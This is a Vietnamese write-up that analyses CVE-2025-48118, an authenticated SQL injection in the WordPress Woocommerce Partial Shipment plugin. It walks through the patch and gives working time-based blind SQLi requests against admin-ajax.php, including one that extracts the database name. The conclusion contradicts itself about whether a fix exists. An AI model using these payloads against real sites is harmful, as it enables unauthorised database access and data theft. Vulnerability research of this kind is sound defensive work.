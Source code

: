 # CVE-2025-48118 Analysis & POC


---

Lỗ hổng xảy ra trên plugin **Woocommerce Partial Shipment** của WordPress trước phiên bản **3.3**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2
- **CVSS severity**:  High (8.5)
- **Required Privilege**: Subscriber

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Woocommerce Partial Shipment**:  v3.2(vul) và v3.3(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version
- **Actived WooCommerce plugin**: plugin bắt buộc **actived** trước khi cài **Woocommerce Partial Shipment Plugin**, một số hàm trong **WooCommerce** sẽ được sử dụng.

---

## Analysis
Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế kiểm soát chặt chẽ.

### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **wc-partial-shipment/woocommerce-partial-shipment.php**

Nhưng ở đây, dev thay đổi khá nhiều ta khó để tìm được vị trí lỗi.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong file **wc-partial-shipment/woocommerce-partial-shipment.php** để tìm sink. 

![search sink](search_sink.png "Kết quả tìm vị trí sink trong mã nguồn")

`get_shipment_id` và `get_wxp_shipment_data` là 2 hàm thuộc class **WXP_Partial_Shipment** đáng chú ý, dữ liệu được đưa thẳng vào câu query mà không có cơ chế kiểm soát nào. Do đó, lỗ hổng SQLi có thể xảy ra.

![Patch](patch.png "So sánh sự khác biệt giữa bản lỗi và bản vá")

Bản vá sử dụng `$wpdb->prepare()` để chuẩn bị câu query, thay vì **nối trực tiếp dữ liệu từ người dùng**. Điều này đảm bảo rằng tất cả giá trị được **escape đúng cách** trước khi chèn vào SQL, ngăn ngừa nguy cơ SQL Injection.

### How it work?
`get_shipment_id` và `get_wxp_shipment_data` đều được hàm `wxp_order_set_shipped` trong cùng class gọi và sử dụng.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
````

👉 `order_id` được lấy từ **POST request**, nơi người dùng có thể kiểm soát làm đối số khi gọi hàm `get_shipment_id` và `get_wxp_shipment_data`
truyền vào câu query chứa lổ hỗng SQLi.

Để xác định nơi `wxp_order_set_shipped` được gọi và sử dụng, ta tìm kiếm với từ khóa `wxp_order_set_shipped` trong thư mục chứa plugin.

![Search 1](search_1.png "Tìm vị trí nơi hàm wxp_order_set_shipped được gọi")

`wxp_order_set_shipped` được `construct` của cùng class sử dụng làm callback cho hook `wp_ajax_wxp_order_set_shipped` => yêu cầu người dùng phải đăng nhập

👉 Khi truy cập vào `/wp-admin/admin-ajax.php` với tham số:

```
action=wxp_order_set_shipped&order_id=payload_here
```

* Callback `wxp_order_set_shipped` được gọi
* `order_id` được lấy trực tiếp từ request và chèn vào SQL query.
* Query thực thi 2 lần do được truyền vào 2 hàm chạy lệnh SQL với payload độc hại.

---

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Ở đây có 2 nơi thực hiện query nên thời gian phản hồi sẽ tăng gấp đôi

![time response](time_resp.png "Kết quả phản hồi khi khai thác thành công")

Ta sử dụng **subquery trong mệnh đề FROM** vì truy vấn con được coi như một bảng tạm thời. MySQL sẽ thực thi truy vấn con trước để tạo bảng tạm, sau đó mới thực hiện truy vấn chính. Khi so sánh theo từng row, `SLEEP` chỉ chạy một lần trong quá trình khởi tạo bảng tạm, các lần so sánh tiếp theo sẽ không thực thi lại, nhờ đó tránh việc `SLEEP` bị nhân nhiều lần.

Ví dụ khi gửi request với payload này:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

Thời gian trả về tăng theo cấp số nhân

![search 2](search_2.png "Thời gian phản hồi tăng theo cấp số nhân")

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `order_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

---

## Conclusion

Lỗ hổng **CVE-2025-48118** trong plugin WordPress **Woocommerce Partial Shipment** trước phiên bản **3.3**, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:

* Kiểm soát kỹ input từ người dùng.
* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)

---
